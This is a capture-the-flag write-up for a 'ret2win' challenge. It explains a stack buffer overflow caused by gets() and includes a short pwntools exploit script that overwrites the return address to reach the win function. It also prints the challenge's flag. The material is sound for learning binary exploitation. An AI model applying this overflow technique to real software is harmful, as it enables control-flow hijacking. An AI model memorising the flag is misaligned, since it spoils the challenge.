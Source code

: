 # ret2win

## Challenge

`Author`: **godsword**

**Description**

> they say every ctf should have one of these

**Files**

- [main.c](./files/main.c)
- [out](./files/out)

## Writeup

This is a typical ret2win challenge, the goal is to redirect the execution of the program to the `win` function.

### Checksec

We can see that only NX is enabled (don't mind SHSTK && IBT for this challenge)
![checksec](./images/checksec.png)

### Vulnerability

In the main function there is a call to `gets` with `buffer` as an argument which is a stack buffer, and it's quite well known that since gets doesn't check input lenght, a **Buffer Overflow** is present in this case.

### Exploitation

The exploitation vector is quite straightforward, since there is no `stack canary`, we just need to overwrite main function return address to the address of the function `win` which is directly know since `PIE` is disabled.  
So, we just need to calculate the padding to main's return address from `buffer`, which can be done using cyclic and breaking in main+82.  
We got the value: `264` which is pretty logical, `0x100=256` bytes for `buffer` and `8` bytes for `old rbp`.

```py
def main():
    global io
    io = conn()
    io.recvuntil("> ")

    # payload = cyclic(0x200)
    payload = flat(
        264*b'A',
        exe.sym["win"]+5
    )

    io.sendline(payload)

    io.interactive()
```

> **Note:** We are returning to `win+5` in order to avoid stack alignement problems (we are just skipping the push rbp instruction in win)

> solve script [here](./solve/solve.py)

## Flag

**`ingehack{it_all_started_like_this}`**
